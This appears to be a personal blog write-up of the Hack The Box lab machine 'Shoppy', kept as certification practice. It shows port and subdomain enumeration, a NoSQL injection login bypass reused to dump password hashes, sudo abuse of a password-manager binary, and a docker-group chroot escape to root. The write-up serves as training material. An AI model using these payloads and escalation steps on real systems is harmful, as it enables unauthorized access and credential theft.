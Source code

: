 ```yaml
---
layout: post
title: "Shoppy"
date: 2025-04-20 
categories: cpts preparation
---
```

# attack path

First enumerate the open ports then use nmap to scan its service

```bash
rustscan -a 10.129.227.233

result:
Open 10.129.227.233:22
Open 10.129.227.233:80
Open 10.129.227.233:9093

sudo nmap -sC -sV -p 22,80,9093 10.129.227.233

```

Add shoppy.htb to /etc/hosts

Nothing on the site, let’s enumerate subdirectories

```bash
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt

result:
/Admin                (Status: 302) [Size: 28] [--> /login]
/admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]

```

Spotted the app to be run by nodejs which uses mongodb database which is vulnerable to nosql injection

```bash
In the login form:
username: admin' || '1' == '1

We get logged in
```

Now we get logged in there is a search user function. If the user exist then we get returned a export command which exports user and their hashes. We can use the same method as before to exploit the SQL injection vulnerability:

```bash
search: admin' || '1' == '1
Then click export and we get two users and their password hashes
```

![image.png]({{ site.baseurl }}/assets/shoppy/image.png)

Found user’s josh’s password through crackstation

We logged in as Josh and see nothing new, let’s try sshing. Does not work.

Let’s try enumerating for subdomains:

```bash
/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://FUZZ.shoppy.htb -t 10

http://shoppy.htb/admin/

gobuster dir -u http://shoppy.htb/admin/ -w /usr/share/wordlists/dirb/common.txt

ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5
```

For some reason the other ffuf command crashes wifi… 

Found subdomain mattermost. Login as user josh.

We check our sudo privleges

```bash
sudo -l

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
    
That means we can run the binary as the deploy user:

sudo -u deploy /home/deploy/password-manager
```

We find master password and the password manager gave us the credentials for user deploy. Now let’s login as user deploy

we get a shell. Let’s upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Running sudo results nothing. Running id tells us we are in the docker group

Let’s check what docker images there are:

```bash
docker image ls

result:
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

Let’s  mount root inside the container:

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt bash

And we get a root shell
```